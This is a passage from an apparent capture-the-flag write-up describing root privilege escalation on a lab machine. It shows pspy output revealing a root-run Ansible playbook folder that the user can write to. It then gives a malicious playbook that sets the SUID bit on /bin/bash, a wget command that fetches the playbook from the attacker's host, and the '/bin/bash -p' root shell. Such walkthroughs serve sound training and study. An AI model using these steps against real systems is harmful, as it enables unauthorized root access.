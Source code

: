 - I decided to run pspy and found these lines

```bash
2023/04/16 01:32:03 CMD: UID=0     PID=7000   | /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1681608722.5781634-6981-17158073250937/AnsiballZ_setup.py
2023/04/16 01:32:03 CMD: UID=0     PID=6999   | /bin/sh -c /usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1681608722.5781634-6981-17158073250937/AnsiballZ_setup.py && sleep 0
2023/04/16 01:32:03 CMD: UID=0     PID=6998   | /bin/sh -c /bin/sh -c '/usr/bin/python3 /root/.ansible/tmp/ansible-tmp-1681608722.5781634-6981-17158073250937/AnsiballZ_setup.py && sleep 0'
2023/04/16 01:32:03 CMD: UID=0     PID=6981   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/04/16 01:32:03 CMD: UID=0     PID=6975   | /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
2023/04/16 01:32:03 CMD: UID=0     PID=6974   | sleep 10
2023/04/16 01:32:03 CMD: UID=0     PID=6973   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
2023/04/16 01:32:03 CMD: UID=0     PID=6972   | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
```

- We have write rights on the task folder.
- Looking up ansible we can see [this](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) interesting article that can allow us to escalate.
- We create this yaml file in our kali machine

```yml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

- This will put the suid bit on bash and we will then be able to exploit this with [this](https://gtfobins.github.io/gtfobins/bash/)
- From our target we go to the tasks folder `cd /opt/automation/tasks`
- We launch a python3 server from our attack machine
- This way we can get the file in our target `wget http://10.10.14.5/playbook_1.yml`
- The file has to be named `playbook_1.yml`
- We can rename the initial file `playbook_1.yml.old` and get the new one after.
- After a little while if we run `/bin/bash -p` we should be root
- We can grab the final flag  

![root flag](../.res/2023-04-22-21-58-08.png)
